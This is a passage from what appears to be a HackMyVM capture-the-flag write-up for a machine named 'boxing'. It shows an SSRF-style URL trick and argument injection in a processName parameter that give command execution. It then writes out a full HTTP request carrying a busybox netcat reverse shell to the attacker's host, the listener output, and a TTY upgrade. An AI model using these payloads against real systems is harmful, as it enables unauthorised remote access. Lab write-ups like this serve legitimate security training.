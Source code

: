 Original URL: `POST /index.php?url=http://boxing.hmv@127.0.0.1:5000?processName=processName -e ls `

Encoded URL: `POST /index.php?url=http://boxing.hmv@127.0.0.1:5000?processName=processName%2b-e%2bls%2b`

![[Pasted image 20241102122355.png]]

We now have command execution, so we should be able to get a shell. Using https://www.revshells.com/, the first reverse shell command to work was `busybox nc 192.168.0.51 443 -e sh` so I will use this:

```bash
POST /index.php?url=http://boxing.hmv@127.0.0.1:5000?processName=processName%2b-e%2bbusybox%2bnc%2b192.168.0.51%2b443%2b-e%2bsh HTTP/1.1
Host: staging-env.boxing.hmv
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 12
Origin: http://staging-env.boxing.hmv
Connection: keep-alive
Referer: http://staging-env.boxing.hmv/index.php?url=http%3A%2F%2Fboxing.hmv%40127.0.0.1%3A5000
Upgrade-Insecure-Requests: 1
Priority: u=0, i

processName=
```

Gives me a shell:

```bash
garffff@garffff:~/hackmyvm/boxing$ sudo nc -lvp 443
Listening on 0.0.0.0 443
Connection received on staging-env.boxing.hmv 55862
whoami && id
www-data
uid=33(www-data) gid=33(www-data) groupes=33(www-data)
```

Upgraded TTY line:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@boxing:/opt/pidstat$ ^Z
[1]+  Stopped                 sudo nc -lvp 443
garffff@garffff:~/hackmyvm/boxing$ stty raw -echo
sudo nc -lvp 443hackmyvm/boxing$ 


www-data@boxing:/opt/pidstat$ 
```

Looking in the `/var/www/dev/` directory we see a database file:
